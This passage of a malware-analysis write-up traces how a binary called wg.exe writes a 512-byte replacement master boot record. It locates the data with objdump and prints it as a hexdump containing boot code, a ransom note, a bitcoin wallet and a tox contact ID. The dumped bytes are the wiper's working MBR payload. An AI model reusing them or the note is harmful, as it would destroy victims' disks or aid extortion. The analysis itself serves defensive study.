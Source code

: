 The text snippet here shows how the ransom note, located at 0x404020, is passed along as an argument to the *WriteFile* call at 0x2ff9. We could express the call line in C like:

```
WriteFile(fileHandle, (LPCVOID)0x404020, 0x200, 0, 0)
```

In this case, the data at 0x404020 contains the ransom note needed. 512 (0x200) bytes, the size of the MBR, are used in the call to *WriteFile*. This is likely the MBR code, but we want to prove it before relying on assumptions. So, let's get the file offset and see what data exists there.

To find the file offset, first get the `.data` section's VMA and File Offset:

```
$ objdump -x wg.exe
...
Sections:
Idx Name          Size      VMA       LMA       File off  Algn
...
  1 .data         00002038  00404000  00404000  00003200  2**5
```

We can determine the file offset with:

> *VirtualOffset* - *DataSectionVMA* + *DataSectionFileOffset*

So:

> 0x404020 - 0x404000 + 0x3200 = 0x3220. 

We can confirm this is correct using hexdump:

```
$ hexdump -C wg.exe | \
	grep 3220 -A $((0x1F))
00003220  eb 00 8c c8 8e d8 be 88  7c e8 00 00 50 fc 8a 04  |........|...P...|
00003230  3c 00 74 06 e8 05 00 46  eb f4 eb 05 b4 0e cd 10  |<.t....F........|
00003240  c3 8c c8 8e d8 a3 78 7c  66 c7 06 76 7c 82 7c 00  |......x|f..v|.|.|
00003250  00 b4 43 b0 00 8a 16 87  7c 80 c2 80 be 72 7c cd  |..C.....|....r|.|
00003260  13 72 02 73 18 fe 06 87  7c 66 c7 06 7a 7c 01 00  |.r.s....|f..z|..|
00003270  00 00 66 c7 06 7e 7c 00  00 00 00 eb c4 66 81 06  |..f..~|......f..|
00003280  7a 7c c7 00 00 00 66 81  16 7e 7c 00 00 00 00 f8  |z|....f..~|.....|
00003290  eb af 10 00 01 00 00 00  00 00 01 00 00 00 00 00  |................|
000032a0  00 00 41 41 41 41 41 00  59 6f 75 72 20 68 61 72  |..AAAAA.Your har|
000032b0  64 20 64 72 69 76 65 20  68 61 73 20 62 65 65 6e  |d drive has been|
000032c0  20 63 6f 72 72 75 70 74  65 64 2e 0d 0a 49 6e 20  | corrupted...In |
000032d0  63 61 73 65 20 79 6f 75  20 77 61 6e 74 20 74 6f  |case you want to|
000032e0  20 72 65 63 6f 76 65 72  20 61 6c 6c 20 68 61 72  | recover all har|
000032f0  64 20 64 72 69 76 65 73  0d 0a 6f 66 20 79 6f 75  |d drives..of you|
00003300  72 20 6f 72 67 61 6e 69  7a 61 74 69 6f 6e 2c 0d  |r organization,.|
00003310  0a 59 6f 75 20 73 68 6f  75 6c 64 20 70 61 79 20  |.You should pay |
00003320  75 73 20 20 24 31 30 6b  20 76 69 61 20 62 69 74  |us  $10k via bit|
00003330  63 6f 69 6e 20 77 61 6c  6c 65 74 0d 0a 31 41 56  |coin wallet..1AV|
00003340  4e 4d 36 38 67 6a 36 50  47 50 46 63 4a 75 66 74  |NM68gj6PGPFcJuft|
00003350  4b 41 54 61 34 57 4c 6e  7a 67 38 66 70 66 76 20  |KATa4WLnzg8fpfv |
00003360  61 6e 64 20 73 65 6e 64  20 6d 65 73 73 61 67 65  |and send message|
00003370  20 76 69 61 0d 0a 74 6f  78 20 49 44 20 38 42 45  | via..tox ID 8BE|
00003380  44 43 34 31 31 30 31 32  41 33 33 42 41 33 34 46  |DC411012A33BA34F|
00003390  34 39 31 33 30 44 30 46  31 38 36 39 39 33 43 36  |49130D0F186993C6|
000033a0  41 33 32 44 41 44 38 39  37 36 46 36 41 35 44 38  |A32DAD8976F6A5D8|
000033b0  32 43 31 45 44 32 33 30  35 34 43 30 35 37 45 43  |2C1ED23054C057EC|
000033c0  45 44 35 34 39 36 46 36  35 0d 0a 77 69 74 68 20  |ED5496F65..with |
000033d0  79 6f 75 72 20 6f 72 67  61 6e 69 7a 61 74 69 6f  |your organizatio|
000033e0  6e 20 6e 61 6d 65 2e 0d  0a 57 65 20 77 69 6c 6c  |n name...We will|
000033f0  20 63 6f 6e 74 61 63 74  20 79 6f 75 20 74 6f 20  | contact you to |
00003400  67 69 76 65 20 66 75 72  74 68 65 72 20 69 6e 73  |give further ins|
00003410  74 72 75 63 74 69 6f 6e  73 2e 00 00 00 00 55 aa  |tructions.....U.|
```
